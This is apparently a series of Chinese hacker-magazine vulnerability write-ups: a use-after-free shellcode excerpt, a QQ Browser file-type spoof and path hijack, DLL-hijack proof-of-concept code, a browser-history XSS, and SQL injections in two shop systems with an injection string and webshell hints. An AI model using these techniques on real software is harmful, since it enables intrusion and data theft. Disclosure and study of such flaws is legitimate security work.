

图 16

第三次调用时，`ControlAddr'' = 0x0f000030`。通过运行，最终会调用到 Shellcode 上去，完成对 DEP 的完全绕过，并执行 Shellcode。

Shellcode 的代码如下：

```asm
shellcode:
0F00004C    60              pushad
0F00004D    31C0            xor   eax,eax
0F00004F    50              push  eax
0F000050    50              push  eax
0F000051    50              push  eax
0F000052    E8 00000000     call  0F000057
0F000057    5A              pop   edx
0F000058    89D6            mov   esi,edx
0F00005A    52              push  edx
0F00005B    8304243B        add   dword ptr [esp],3B
0F00005F    83C225          add   edx,25
0F000062    83C62E          add   esi,2E
......
```

这里就不分析了。有兴趣可以自己分析，其实就是弹出一个计算器。

### 总结

第一次分析漏洞触发的原因，而且是堆环境复杂的浏览器漏洞，一开始真是不知道如何下手。感觉这种 use after free 的漏洞，就是通过栈回溯找到对象的创建、销毁、再使用过程。尤其要搞清楚为何会再次被使用。像这个漏洞，它能再次被使用是由于喷射覆盖了对象内存区域的原因。笔者一开始去掉了堆喷射，却怎么也触发不了异常，怎么都想不明白。后来思路一换，把 Shellcode 破坏掉，然后栈回溯慢慢分析，最终找到了原因。

此次的 ROP 构造真是一个精细活，尤其是要在 BugTrigger 的跳转中通过控制 `[esi+8]` 的值不为 0 来反复调用虚函数（`call [ecx+0x70]`）。并且 DEP 的函数地址是通过稳定偏移获取的。这些在上面都有详细说明，就不多说了。总之，这是一个经典的 use after free 漏洞实例。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无

关键词：QQ 浏览器，漏洞，下载程序

## 不得不说的 QQ 浏览器

图/文 爱无言



还记得在去年的时候，我给腾讯汇报了关于 QQ 浏览器的两个缺陷：一个是“查看源代码”功能可以跨域，另一个是利用恶意的 POP 菜单可以阻挡 QQ 浏览器的整个界面，导致用户无法使用 QQ 浏览器。这两个缺陷我汇报上去之后，杳无音信。我以为腾讯公司对我汇报的这两个缺陷不认同，所以也没有给我任何反馈。

事情过去了近半年时间。最近，在无意中我下载了 QQ 浏览器的最新版本——QQ 浏览器 5.1.1，如图 1 所示。

我重新拿出以前的测试网页，看一看这个新版本的 QQ 浏览器还有没有那两个缺陷，结果竟然发现这两个缺陷被修补了！尤其有意思的是，腾讯公司的 QQ 浏览器干脆去除了“查看网页源代码”这个功能。无论是浏览器自身菜单中，还是鼠标右键菜单中，我都没有找到“查看网页源代码”这个功能。难道说，腾讯为了修补缺陷去除了“查看网页源代码”的功能？无论如何，可以确定的是我汇报的缺陷应该是被“默认”了。


既然新版本的 QQ 浏览器出来了，那么我们也就再次测试测试，看一看能不能有什么新的收获。

新版本的 QQ 浏览器确实变化较大，无论功能还是使用上都变得更加容易操作。我们的测试思路还是先从软件功能上开始。新版 QQ 浏览器自带了一个下载程序，如图 2 所示。


图 2

这个 QQ 浏览器自带的下载程序看起来非常简便，这符合浏览器设计上的简约模式。该下载程序允许用户编辑被下载文件的名称，但是程序在判断被下载文件的类型时，采用的是对被下载文件名后缀进行类型判断。不同的文件类型，下载程序会显示出不同的图标。图 2 中，我们看到被下载文件为 rar 压缩文件时，它显示的图标是一个带有拉链的文件夹图标。这种设计模式可以提示用户当前被下载文件属于什么类型的文件。

如果我们现在下载一个 exe 文件，我们可以看到图标发生了变化，如图 3 所示。


图 3

图 3 中，我们确实看到了下载程序中显示的文件图标发生了变化。这里有一个问题：QQ 浏览器自带的下载程序在下载文件时，给了用户三个选项。这三个选项对于不同类型的被下载文件是不一样的。当用户下载的文件类型是非可执行文件时，下载程序给出的三个选项分别是“打开”“下载”“取消”；当用户下载的文件类型为可执行文件时，下载程序给出的三个选项分别是“运行”“下载”“取消”。这种选项上的变化，也可以提醒用户当前下载文件属于什么类型，是否打开运行都由用户决定。一般稍有安全意识的用户，一看被下载文件为 exe 类型时，肯定不会选择“运行”。

但是，QQ 浏览器在设计自带下载程序时，虽然想到了很多细节，还是出现了疏漏。我们发现有一种办法可以造成 QQ 浏览器自带下载程序出现显示错误，从而可以欺骗用户来运行可执行类型文件。

在图 2、图 3 中，显示在下载程序上的被下载文件名看起来是完整的，但是对于过长的文件名，QQ 浏览器自带下载程序就会截断显示，这样就可以将敏感的 exe 字符屏蔽掉，不让用户看到。可是还有一个问题：虽然我们屏蔽了 exe 字符不让用户看到，但是下载程序在给出被下载文件图标和下载选项时，也会体现出被下载程序属于可执行文件类型。如果我们可以让下载程序在下载可执行文件时显示的效果与下载普通文件样式一样，那么我们就可以达到欺骗用户的效果了。

要想到达这个目的，我们想到了一个非常简单的原理。由于下载程序利用对文件最后一个小数点的判断来获取文件后缀名，再依据这个后缀名来判断文件类型，那么我们如果在可执行文件后面再加一个小数点，下载程序就会出现对被下载文件类型判断的失误，从而绕过下载程序对可执行文件类型的识别。

新建一个网页，在其中输入代码：

```html
<a href="http://127.0.0.1/2.exe.">a</a>
```

这段代码中，我们在 `2.exe` 这个文件名后面加上了一个小数点。这一回我们再次打开 QQ 浏览器，访问该网页并利用 QQ 浏览器自带下载程序下载该链接，如图 4 所示。


图 4

毫无疑问，我们的猜测是正确的。此刻，QQ 浏览器自带下载程序在下载 `2.exe` 文件时出现了文件类型识别错误，它不认为该文件是可执行文件。图标显示的不是可执行文件类型图标，并且给出的三个选项也与下载普通文件类型一样，没有“运行”这个选项。

这个时候，用户已经被欺骗，他会以为当前下载的文件不是什么可执行文件，所以放心地选择“打开”。于是，我们安排好的可执行文件 `2.exe` 就被顺利地在用户机器上执行了。

说完这个欺骗漏洞，我们再看一看还能不能有什么新的发现。QQ 浏览器的开发者在细节上会不会很注意，这是我一直怀疑的。有一种可能性就是对执行文件路径的设计细节。由于我这会儿测试将 QQ 浏览器安装在了 D 盘下，所以我在 D 盘下建立了一个可执行文件，也就是利用 Windows 系统自带的计算器程序改名为 `Program.exe`。现在，我们重新运行 QQ 浏览器，你会发现奇怪的事情发生了，如图 5 所示。

QQ 浏览器没有正常启动展示在前台，计算器程序竟然被执行了，而且还是两次！这个时候你打开任务管理器，会发现 QQ 浏览器其实也已经运行了，如图 6 所示。


图 6

这其中的道理其实很简单：浏览器设计者在内部调用程序时路径上存在设计错误，于是就发生了前面的一幕。这个漏洞其实可以被利用来实现恶意木马程序的自动激活。

QQ 浏览器的问题还不止这些，是不是还有更大的安全问题，我这里就不再多说，大家有兴趣可以自行测试。希望 QQ 浏览器的开发者看到本文后能够立即修正，真心期待腾讯公司能够开发出更好的浏览器产品。最后，本文内容旨在讨论安全技术，请读者不要利用本文技术进行非法行为，作者与杂志概不负责。


图 5

前置知识：无

关键词：DLL，劫持，漏洞

## 无处不在的 DllHijack 漏洞

图/文 爱无言

浏览器的开发一直是编程人员最为扎堆的一个项目，国内在这一方面也不乏很多经典之作，如遨游、搜狗、360 安全浏览器等等。无论是元老级别的微软 IE 浏览器，还是现在一些外包浏览器，它们在安全方面都或多或少存在问题。除去我们常见的缓冲区溢出漏洞、跨域脚本执行漏洞，一些特殊的安全漏洞也是值得安全人员注意的，这里我们给大家带来的两个安全漏洞就属于浏览器软件的 “DllHijack” 漏洞。

“DllHijack” 顾名思义就是对 DLL 文件的劫持。简单地说，一个软件在开发的时候如果调用了某个 DLL，但是在最后发布的时候却没有将这个 DLL 打包，那么软件在运行的时候就会试图寻找这个 DLL。这个时候，我们就可以制造一个特殊的 DLL，让其冒充那个软件真正寻找的 DLL，从而让软件加载我们的特殊 DLL，运行其中的恶意代码。

从原本的意义上讲，“DllHijack” 中使用的特殊 DLL……

## Dllhijack 漏洞案例分析

应该存在于用户系统的本地硬盘上，不然用户系统中的软件怎么知道从哪里加载 DLL。更严格地规定应该是，特殊 DLL 必须存在于软件程序自身的文件目录当中，应该与软件的主程序在一起。如果真的是这样的话，那么，我想“DllHijack”的意义就不大了。要知道，当我们有权利将特殊 DLL 放到用户系统当中时，我们都已经获得进入用户系统的权利，还要“DllHijack”干什么呢？

还好，拜微软所赐，Windows 系统下的软件在寻找要加载的 DLL 时，是按照一定的路径来搜索的。这个路径次序中包含了除用户系统以外的目录。下面，我们就结合两个真实的“DllHijack”漏洞来给大家做以说明。

第一个“DllHijack”案例涉及的软件是“E 影智能浏览器”的 2012.194 版本。当我们使用 FileMon 这款软件监视“E 影智能浏览器”的运行过程时，我们发现“E 影智能浏览器”在试图加载一个不存在的 DLL 文件，如图 1 所示。


从图 1 中，我们看到“E 影智能浏览器”试图在多个目录下搜寻一个名为“quserex.dll”的 DLL 文件（注意 Windows 系统下不区分文件名的大小写）。

现在，我们随意编写一个 htm 网页文件，其中的代码可以是简单的“`<b>测试</b>`”，将该网页文件放置在局域网中一台计算机的共享目录下。为了与后面的区别，我们这里简称为 A 计算机的 A 目录。同时，我们利用 VC 这款编程软件，编写一个简单的 DLL 文件。其代码如下：

```c
#include "stdafx.h"
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    WinExec("calc.exe", SW_NORMAL);
    return TRUE;
}
```

这是一个简单得不能再简单的 DLL，它的作用只有一个，就是运行 Windows 系统自带的计算器程序。编译这段代码，最终生成一个 DLL 文件，我们将其改名为“quserex.dll”，并且将这个“quserex.dll”也放置在 A 计算机的 A 目录当中。

现在，我们在局域网中的另外一台计算机 B 上安装“E 影智能浏览器”的 2012.194 版本。我们将此浏览器设置为默认浏览器。接着，我们从 B 计算机上打开 A 计算机 A 目录当中的那个 htm 网页文件。这个时候，“E 影智能浏览器”启动了，它将试图打开 htm 网页文件。与此同时，我们发现 B 计算机上运行了很多的计算器程序，如图 2 所示。


毫无疑问，我们的“quserex.dll”这个 DLL 文件被“E 影智能浏览器”当作自己需要的那个 DLL 文件给自动加载了，而此时，这个伪造的“quserex.dll”却是在远程计算机 A 上。

上面这个案例告诉我们，“DllHijack”是可以成功地被用于远程攻击的，Windows 系统的库文件搜索机制造就了我们借助“DllHijack”实现远程执行任意代码的目的，漏洞的危害性骤然变大。

第二个案例是同样的问题也出现在了“闪游浏览器”上。利用 FileMon 我们监测到“闪游浏览器”试图加载一个名为“dwmapi.dll”的 DLL 文件，如图 3 所示。


于是，我们可以将上面第一个案例中的“quserex.dll”修改为“dwmapi.dll”，还是将其与 htm 网页文件一起放置在 A 计算机的 A 目录当中。然后，在 B 计算机上使用“闪游浏览器”打开 htm 网页文件，你会发现计算器程序依旧被执行了，如图 4 所示。

不过做这个实验请千万注意，“闪游浏览器”在加载我们的“dwmapi.dll”后，会循环调用该库文件，于是会连续打开计算器程序，所以大家注意赶紧关闭，以免造成计算机系统“死机”。


图 4


图 5

通过上面两个案例，我们可以看出“DllHijack”其实是属于漏洞范畴的，借助“DllHijack”恶意攻击者可以实现远程入侵用户系统，危害的权值还是比较高的。它的发现测试方法还是很简单，不过在有些时候，软件对被加载的 DLL 文件可能需要一定的要求，这个时候就需要借助逆向分析技术来看一看具体情况了。

“DllHijack”发生的范围不仅仅限于浏览器软件，无论是文字处理软件，还是我们最常用的媒体处理软件，都会存在这样的安全问题。在测试中，我们甚至发现了百度影音也存在此类安全漏洞。借助邮件和第三方漏洞收集平台，我们已经及时通知百度影音的开发团队，如图 5 所示。

出现问题的库文件名称为“log.dll”，推测应该是带有调试性质的日志记录接口。将该文件与任意格式媒体文件放置在同一目录下，当用户使用百度影音播放媒体文件时，“log.dll”文件将会被同时加载。如果该文件为恶意攻击者开发，那么就会直接造成用户系统受到攻击。为此，恶意攻击者可以利用该漏洞，远程共享带有“log.dll”和媒体文件的文件夹，诱使用户访问，最终实现远程入侵用户系统。

常用软件出现“DllHijack”漏洞，其影响力是巨大的。一般的用户只会对 exe 这样的程序比较敏感，不会轻易执行；但是，一个 DLL 文件放在一堆视频文件当中，或者网页当中，谁会在意？反正双击又不会运行。这就造成了“DllHijack”漏洞的隐蔽性。

最后，以上关于浏览器的两个安全漏洞属于首次公布。截至发稿前，上述两个漏洞对于相应版本的浏览器软件还都有影响。希望读者不要利用这些漏洞做任何违法事情，作者与杂志概不负责，本文旨在讨论安全技术。希望国内浏览器的开发者能够及时修补该漏洞，为广大使用者带来一个安全方便的使用体验。

前置知识：无

关键词：浏览器，XSS，0day

## 超速浏览器 XSS 0day 漏洞


图/文 爱无言

“超速浏览器”是由 www.chacsu.com 开发的一款免费网络浏览器软件，这款浏览器在界面上显得十分清爽，如图 1 所示。

很火，无论是大牌的 IT 厂商，还是个人的自我娱乐，各式各样的浏览器软件让人眼花缭乱。这主要是因为浏览器软件是用户使用频率最高的软件之一，只要上网的用户都会使用浏览器软件来冲浪。如果能够开发一款大受用户欢迎的浏览器软件，那么它带来的经济价值不言而喻。但是，一个严肃的问题摆在我们面前：面对如此众多的浏览器软件，哪一个更加安全可靠？毕竟现在的互联网上病毒木马满天飞，稍不留意爱机就会中毒。浏览器软件的开发如此混乱，说不定哪一款浏览器软件自己本身就存在漏洞，谁能帮助我们来做一个安全测试呢？为此，我们今天准备要测试一下眼前的这款“超速浏览器”，看一看它能不能获得我们对它的信任。


图 1

我们此次测试的“超速浏览器”版本为 4.7.4，如图 2 所示。


图 2

从图 2 来看，4.7.4 版本的“超速浏览器”是 2011 年 7 月 19 日发布的，还是比较新的版本。我们的第一个测试集中在了对浏览器浏览历史的安全测试方面。这是因为，“超速浏览器”本身提供了查看浏览器浏览历史的功能，这也是浏览器最为常用的功能之一，如图 3 所示。

利用浏览器菜单中的选项，或者直接按下“Ctrl+H”快捷键，我们就能够打开“超速浏览器”的浏览历史界面。在图 3 中我们看到，“超速浏览器”将用户的浏览历史以列表的形式显示出来，第一部分应该是用户所浏览网页的标题部分，第二部分则是网页所在网址。

此时，我们敏感到一个问题：以往很多浏览器在处理用户浏览历史中的网页标题时都出现了疏漏，因为一个网页的标题部分是可以人为赋予任意内容的。如果某个网页的标题是一段网页脚本代码，那么，当浏览器将这段网页脚本代码当作用户所浏览网页的标题处理时，往往就会发生网页脚本代码被直接执行，从而发生严重的安全隐患。


图 3

现在，带着怀疑的心态，我们来做一个测试。首先，编写一个网页文件，其中的代码如下：

```html
<html>
<title><script>alert(123)</script></title>
</html>
```

代码非常简单，最关键的地方在于两个“title”标签之间。这里原本应该是普通文字，因为它是代表网页标题的部分，而此时，我们在这里放入了一段脚本代码。这段脚本代码利用“alert”函数弹出一个带有“123”字符串的对话框。保存上述网页代码为 test.htm 文件，将其上传到本地或者你自己搭建的一个 Web 服务目录下。回到“超速浏览器”，我们在其地址栏中输入刚才 test.htm 所在的网址来访问该网页文件，如图 4 所示。


图 4

顺利访问到 test.htm 文件后，我们可以看到图 4 浏览器上方显示的内容就是 test.htm 文件中两个“title”标签之间的内容。此刻，我们按下“Ctrl+H”快捷键，查看当前浏览器的浏览历史，你会发现惊奇的事情发生了，如图 5 所示。

从图 5 中我们看到，“超速浏览器”赫然弹出了一个带有“123”字符串的对话框。这意味着我们插入到 test.htm 文件中的脚本代码被执行了，“超速浏览器”果然没有防范网页中标题部分的内容，恶意攻击者可以编写任意脚本代码来攻击浏览器的使用者。最简单的攻击就是利用“iframe”标签来让用户在不知不觉中访问恶意网站，从而被网页木马攻击，如图 5 所示。

XSS 漏洞要想防范此类漏洞，从开发者角度来说，应该注意对网页标题内容的安全过滤，或者采用简单的转换函数来输出网页标题内容，例如 htmlencode 函数之类。而从用户角度来说，应该注意在自己访问网页时，查看一下浏览器上方显示的网页标题内容；如果存在类似代码一类的东西，那么就一定注意安全，立即清除浏览器历史记录，不要随意查看浏览器的浏览历史，以防被恶意攻击。


图 5


图 6

“超速浏览器”的这个安全漏洞在表现形式上与先前国内某些知名浏览器存在的漏洞一致，都属于一个浏览器软件的 XSS 类型漏洞。很多国内外知名的浏览器在处理用户浏览历史这个问题上都出现过类似的问题。

最后，本文旨在讨论技术，希望读者不要以此文内容做任何违法行为，作者和杂志概不负责。

前置知识：无

关键词：宝贝儿，漏洞，商品

## 百密一疏的宝贝儿拍卖系统


图/文 爱无言

“宝贝儿拍卖系统”是由 www.CNBBR.com 开发的一款专门用于网上交易的商铺系统，我们这里讨论的是其 9.6 版本。第一次接触该系统的时候，我就被其貌似淘宝的风格给吸引了，如图 1 所示。

可以说单单是这个界面，我想很多网管人员就会选择该系统来作为自己的商铺系统使用。除去某些细节上的不同，“宝贝儿拍卖系统”给人的第一感觉就很好，是一个值得体验的商铺系统。当然，我们在使用某一个网站系统时，不能只盯着其华丽的效果，更需要注意其安全性。要知道，商铺系统是涉及用户经济利益的，稍有疏忽就会造成用户经济利益损失，那样的话，网站管理员可就要承担巨大的风险了。

在网页上随意点击了一个商品，我们发现其网址格式类似这样：http://xxx/Item.asp?aucid=1000000025。这就使得我们猜测“宝贝儿拍卖系统”是否存在 SQL 注入漏洞。但是，经过测试，我们发现，“宝贝儿拍卖系统”似乎在这方面做了安全防范，关于这一点，我们可以通过查看系统的脚本代码来证明。

```vb
Dim ID:ID=CheckStr(trim(rst("aucid")))
If Not IsNum(ID) then Call AlertInfo("没有找到此宝贝信息！", "index.asp",1)
```

上面这段代码就来自于“item.asp”文件，我们看到系统在获取外部参数“aucid”的数值时，首先利用了“CheckStr”函数来进行安全过滤。该函数的原型在网站根目录下“Inc”文件夹中的“Function.asp”文件中可以找到，代码如下所示。


```vb
Function CheckStr(byVal ChkStr)
    Dim Str:Str=ChkStr
    If IsNull(Str) Then
        CheckStr = ""
        Exit Function '首先判断获取的外部参数数值是否为空
    End If
    Str = Replace(Str, "&", "&amp;")
    Str = Replace(Str, "'", "&#39;")
    Str = Replace(Str, "\"", "&#34;")
    Dim re
    Set re=new RegExp
    re.IgnoreCase=True
    re.Global=True
    ...
End Function
```

通过注释可以看出，“CheckStr”函数针对 SQL 注入漏洞中的特殊字符，如单引号，进行了编码替换，这就使得我们想要利用单引号来进行注入攻击的想法给彻底堵死了。除此之外，系统还利用“IsNum”函数，再一次判断外部参数是不是数字类型。这样一来，我们的注入攻击语句就不可能进入到系统当中，SQL 注入漏洞似乎被完全杜绝了。查看了多个系统文件，我们都发现存在上述类似的安全过滤代码，当我正要对该系统放弃代码审计的时候，忽然发现机会来了。

首先，让我们先注册一个用户，假设叫“aiwuyan”，密码随意。使用该用户登录“宝贝儿拍卖系统”，如图 2 所示。


在登录系统后，我们从图 2 中可以看到，“宝贝儿拍卖系统”支持用户发送站内短信息，这是一个常用的功能；但是，这一次却用处非常。我们找到用户发送短信息的地方，如图 3 所示。


图 3 中，在填写短信息收件人时，我们填写了“aiwuyan'”，注意我们这里加入了单引号。你一定会说，这个单引号肯定会被系统过滤了，但是，接下来的画面，我想你一定会很惊讶。点击图 3 中的“确认发送短信息”按钮，新的画面如图 4 所示。


图 4

无须解释，图 4 中清晰的错误提示告诉我们，系统出现了数据库查询错误，引发该错误的原因很简单，就是我们在图 3 中加入的那个单引号。错误发生在“BBR_MsgSave.asp”这个文件的第 17 行，让我们看看那里写着什么代码。

```asp
ownerid=Request.Form("ownerid") // 这个就是短信息收件人

aucid=Request.Form("aucid")
writerid=Session(Super_User&"uid") // 这个则是登录后的用户信息
if Not IsNum(writerid) then Call AlertInfo("你还未登录或者登录已经超时！","login.asp",1)
if not IsNum(aucid) then aucid=0
if ownerid="" then
    Call AlertInfo("请填写你的收件人名称！","",0)
else
    Dim RsUser
    sql="select regid from cnBBR_Users where regusername='" & ownerid & "'"
    set rsuser=conn.execute(sql)
```

通过注释我们现在明白了，“ownerid”这个参数完全没有被安全过滤，它直接被放入到了数据库查询语句当中。这就意味着，一个典型的 SQL 注入漏洞被我们发现了。接下来的事情很简单，我们现在想要获取到系统管理员的信息。由于“宝贝儿拍卖系统”将管理员信息保存在一个名为“cnbbr_bbradmins”的表中，如图 5 所示。

我们构造的 SQL 注入语句就需要对“cnbbr_bbradmins”表的内容进行猜测。该 SQL 注入语句类似这样：`aiwuyan' or 1=(select count(*) from cnbbr_bbradmins) or regname='aiwuyan`。简单解释一下，`1=(select count(*) from cnbbr_bbradmins)` 这一段内容主要是用来负责对“cnbbr_bbradmins”表的内容进行猜测。

如果上述 SQL 注入语句查询成功，那么系统就会发送短消息，发送短信的收件人则是第一个系统注册用户；如果查询不成功，系统会提示“对不起，你填写的收件人不能为自己！”。


图 5

现在，让我们以实际行动来证明一下上述注入漏洞的存在。还是需要在“aiwuyan”用户登录的情况下，新建立一个短消息，在“收件人”一栏中填入上述 SQL 注入语句，然后填写好“留言标题”和“留言内容”……点击“确认发送短信”按钮，系统给出了成功发送信息的提示窗口，如图 6 所示。


图 6

点击图 6 中的“确定”按钮，你会发现我们此刻的短信息果然被发送给了系统第一个注册的用户，如图 7 所示。


图 7

很快，利用我们的 SQL 注入语句你就会猜测出系统的管理员所有信息，然后顺利登录系统的后台，进行挂马，或者对用户数据进行查询，获取到更加有用的信息。

其实，在找出这个 SQL 注入漏洞之后，如果我们面对的“宝贝儿拍卖系统”后台采用的是 SQL Server 数据库，那么我们就可以直接利用差异备份方法，将 WebShell 上传到网站服务器上，从而更进一步获取控制服务器的权限。如果是 Access 数据库，也没有关系，因为通过登录系统后台，我们可以知道当前系统所在的服务器物理路径，如图 8 所示。


图 8

结合一定的技巧，我们也可以获取到 WebShell。至于利用系统上传功能来上传 WebShell 的思路，我们在系统的后台找到了可以上传图片的地方，该处调用的后台网站代码来自于“upshoplogo.asp”文件，在这个文件中，我们看到它只对上传文件的数据类型做了检测，请参看如下代码。

```asp
if not (contentType="image/jpeg" or contentType="image/gif") then
    Response.write "<script language=javascript>alert('出错了，上传的图片类型只能为 gif/jpeg 格式！');history.back(-1);</script>"
    Response.End
End if
```

这种防范非法上传文件的方法应该可以很简单地被绕过，我们可以利用对上传数据包中“Content-Type”参数的修改来绕过。不过，这里的图片在上传后最终被保存入了数据库，无法被我们利用。

由于我们测试的“宝贝儿拍卖系统”是一个免费版本，很多功能还不够全面，不知道完整版的“宝贝儿拍卖系统”是不是也存在这样的 SQL 注入漏洞，真心希望“宝贝儿拍卖系统”的开发人员能够迅速修补该漏洞，让如此易用美观的商城系统更加强大起来，获取更多网站管理员的青睐。

最后，本文旨在讨论安全技术，任何人不得以本文技术进行违法活动，作者与杂志概不负责。

- 前置知识：无
- 关键词：SQL，注入，乐彼

## 乐彼网店系统致命的 SQL 注入漏洞


图/文 爱无言

“乐彼网店系统”又名“56770 eshop”系统，我想这可能与该网站系统的开发网站域名有关系。百度搜索了一下这个网店系统，发现该系统的使用量还是不小的。于是，打算对此系统的安全性做一个初步测试，这里选择测试的系统版本是 11.2.2。

“乐彼网店系统”使用的是安装模式，也就是说，我们需要在自己的 Web 服务器上执行“乐彼网店系统”提供的“Install.asp”文件，这种安装模式是比较正规的 Web 系统采用的常用安装模式，由此可见，“乐彼网店系统”的开发者也是非常用心的。安装后的效果，如图 1 所示。


图 1

我们这里新建了一个站内消息，发现在填写站内消息时，系统不需要我们输入接收消息的用户名，据此判断这些消息是发送给系统管理员的，如图 3 所示。


图 3

清爽的界面难怪会获得用户的喜爱，我们随意点击了其中一个商品的链接，其格式为：http://127.0.0.1/product/default.asp?id=8。此刻，我们在该网址后面加入了常用的注入测试语句“' and 1='1'”，回车后我们发现，浏览器迅速跳转到了网站的首页地址，这样看来，要么是我们注入的测试语句有问题，要么是“乐彼网店系统”本身存在安全防范机制。为此，我们在“product”文件夹下查看“default.asp”文件的代码，经过一番寻找，我们发现原来系统对商品的 id 参数进行了数字类型判断，调用了系统自己的检测函数“CheckNum”，该函数的源代码如下：

```asp
Function CheckNum(num,back)
    num = Trim(num)
    If Not IsNumeric(num) Or IsEmpty(num) Then
        CheckNum = CLng(back)
    Else
        CheckNum = num
    End If
End Function
```

看到上面的代码，我想很多读者就要放弃对该系统的注入漏洞测试了。其实，我们现在只是测试了一点，很难说我们还会不会有新的发现。虽然“乐彼网店系统”的开发者很注重对 SQL 注入漏洞的防范，但是我相信智者千虑必有一失。

注册一个新的用户，假设为“aiwuyan”，用该用户登录系统，我们发现系统支持发送站内信息，如图 2 所示。


图 2

成功发送该短消息后，我们可以在“发件箱”中看到被我们发送的消息，如图 4 所示。


图 4

此刻，如果我们点击该已被发送的短消息，系统就会进入到编辑该短消息状态。在其中，我们找到了一个删除该短消息的链接，其格式为：http://127.0.0.1/user/post.asp?action=del_msg&msgid=10。为什么我会对这个链接如此关注？因为系统在处理这个链接时出现了疏漏，请大家阅读下面这段代码：

```asp
Function myuser_msg_del()
    If Lebi_UserId = "" Then
        response.redirect Eshop_url & PagePath(1) & "?action=needlogin&HTTP_REFERER=" & geturl()
        response.End
    End If
    Dim del_id
    del_id = Replace(safereplace(Trim(request("msgid"))),"'","")
    If Right(del_id,1)="," Then del_id = Left(del_id,Len(del_id)-1)
    conn.execute "delete from [Lebi_message] where id in (" & del_id & ") and (user_id='" & Lebi_UserId & "' or to_user='" & Lebi_UserId & "')"
    myuser_msg_del = CallBack(Lebi_user(10),""&Lebi_word(68),Eshop_url & PagePath(0) & "?action=msg&action2=" & request("action2"),2)
End Function
```

在注释中，我们看到系统对“msgid”确实进行了安全过滤，这个过滤分为两步，其中第一步采用了“safereplace”函数，该函数的原型在“Lebi_Function.asp”文件当中，其代码如下：

```asp
Public Function Safereplace(Str)
    If Isnull(Str) Then
        Safereplace = ""
        Exit Function
    End If
    Str = Replace(Str,"'","")
    Str = Replace(Str,"on","&#180;")
    Str = Replace(Str,"%","")
    Str = Replace(Str,"\"","&#34;")
    Str = Replace(Str,"<","&lt;")
    Str = Replace(Str,">","&gt;")
    Str = Replace(Str,"$","")
    Safereplace = Str
End Function
```

